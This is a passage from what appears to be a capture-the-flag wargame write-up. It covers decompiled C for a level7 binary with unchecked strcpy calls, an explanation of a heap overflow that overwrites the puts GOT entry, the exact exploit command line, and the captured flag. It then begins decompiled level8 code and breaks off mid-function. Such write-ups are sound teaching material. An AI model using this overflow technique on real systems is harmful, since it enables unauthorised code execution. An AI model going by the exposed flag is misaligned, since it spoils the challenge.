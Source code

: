 ```c
  str2[1] = ptr1;

  strcpy((char *)str1[1], argv[1]);
  strcpy((char *)str2[1], argv[2]);

  flag = fopen("/home/user/level8/.pass","r");

  fgets(c, 68, flag);

  puts("~~"); // 
  return 0;
}
```

Just like in level5, we need to override the pointer of `puts` in order to access the `m` function, which is the one that prints the flag (`c`).

In order to do that, we can overflow the first argument into the second, which will help us replace the address of `c` (first address after the padding) by the address of `m` (second argument)

```bash
./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"') 
```
flag: `5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9`

# level8
```c
int main(void)
{
	char cVar1;
	char *pcVar2;
	int iVar3;
	uint uVar4;
	char *pbVar5;
	char *pbVar6;
	bool bVar7;
	int check_service_dup;
	int uVar9;
	bool bVar10;
	int uVar11;
	char bVar12;
	char local_90[5];
	char local_8b[2];
	char service_dup[125];

	bVar12 = 0;
	do
	{
		printf("%p, %p \n", auth, service);
		pcVar2 = fgets((char *)local_90, 0x80, stdin);
		bVar7 = false;
		bVar10 = pcVar2 == (char *)0x0;
		if (bVar10)
		{
			return 0;
		}
		iVar3 = 5;
		pbVar5 = local_90;
		pbVar6 = (char *)"auth ";
		do
		{
			if (iVar3 == 0)
				break;
```